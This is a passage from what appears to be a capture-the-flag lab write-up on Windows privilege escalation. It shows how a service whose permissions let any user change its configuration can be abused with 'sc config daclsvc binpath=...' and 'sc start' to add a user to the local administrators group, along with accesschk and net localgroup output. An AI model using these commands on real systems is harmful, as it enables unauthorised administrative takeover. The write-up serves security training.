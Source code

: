 ~~~
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2396
        FLAGS              :
~~~

Our user is now in the administrators group:

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 9] Service Escalation - binPath

## #9.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

**Exploitation**

Windows VM

1. In command prompt type: `sc config daclsvc binpath="net localgroup administrators user /add"`
2. In command prompt type: `sc start daclsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #9.1 - Click 'Completed' once you have successfully elevated the machine

~~~
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
~~~